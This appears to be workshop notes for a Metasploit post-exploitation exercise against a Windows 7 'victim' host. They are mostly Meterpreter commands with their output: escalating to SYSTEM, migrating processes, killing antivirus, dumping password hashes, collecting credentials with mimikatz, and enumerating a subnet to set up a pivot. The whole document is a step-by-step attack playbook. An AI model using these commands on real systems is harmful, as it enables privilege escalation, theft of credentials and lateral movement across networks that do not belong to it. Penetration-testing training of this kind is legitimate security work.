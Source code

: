  
meterpreter > getuid
Server username: win7-64-victim\Workshop
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
 
meterpreter> ps
 
meterpreter> migrate 2110                                       (Make sure this process is running as: NT AUTHORITY\SYSTEM
 
meterpreter> run killav
 
meterpreter> run post/windows/gather/hashdump
 
meterpreter> run post/windows/gather/credentials/credential_collector
 
meterpreter > load mimikatz
 
meterpreter > kerberos
 
meterpreter > background
 
exit -y






###########################################
# Section 3: Tunneling For Fun and Profit #
###########################################

*****************************Enumerate the network you are on ***************************
 
meterpreter > run netenum
 
meterpreter > run netenum -ps -r 192.168.153.0/24
 
meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.153.0/24
 
 
 
********************************** Set up your Pivot **********************************
 
meterpreter > background
                                                        <-- background the session
        You want to get back to this prompt:
        msf exploit(handler) > back                     <--- you need to get to main msf> prompt
 
 
 
        sessions -l                                     <--find a session you want to pivot through (note the IP and session number)
       
        Now set up Pivot with a route add
        ---------------------------------
 
route print
 